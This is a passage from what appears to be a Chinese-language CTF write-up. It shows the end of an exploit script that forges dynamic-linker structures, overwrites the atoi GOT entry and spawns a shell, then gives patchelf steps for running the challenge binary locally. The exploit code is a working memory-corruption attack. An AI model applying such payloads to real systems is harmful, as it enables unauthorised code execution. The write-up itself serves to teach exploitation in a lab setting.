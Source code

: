 ```python
lg("plt0", plt0)

send_payload(
    my_buf,
    [
        l_addr,
        0x05,
        dynstr,
        0x06,
        elf.got.puts + elf_base - 8,
        0x11,
        fake_rel_addr,
        r_offset,
        7,
        0,
        0,
        0,
        0,
        my_buf + 0x08,
        my_buf + 0x18,
    ],
)

send_payload(my_buf + 0xF8, [my_buf + 0x28])


send_payload(elf_base + 0x4008, [my_buf])
send_payload(elf_base + elf.got.atoi, [elf_base + 0x1030])

cmd(b"subscribe")
ru(b"\t2. Monthly\n")
s(b"sh\x00")

ia()
```
### 解法2 - GOT Hijacking

回到标准解法，思路其实已经呈现在第二次课讲义中了，这里再引用一下：
#### 本地运行程序

若下载附件后本地运行报错，多半是 libc 版本的问题，可以 `ldd --version` 查看本地的 libc 版本，用 patchelf 工具来改变题目可执行文件的动态链接库路径：

```bash
# 安装 patchelf
sudo apt install -y patchelf
# patch
## 题目打包时把 libc 文件放到了 src 目录下
cp ../../src/ld-2.35.so ./
cp ../../src/libc-2.35.so ./
patchelf --replace-needed libc.so.6 ./libc-2.35.so ./limiteddbg
patchelf --set-interpreter ./ld-2.35.so ./limiteddbg

# 此时 ldd 结果应该如下：
ldd limiteddbg
#         linux-vdso.so.1 (0x00007ffff7fc6000)
#         ./libc-2.35.so (0x00007ffff7c00000)
#         ./ld-2.35.so
```
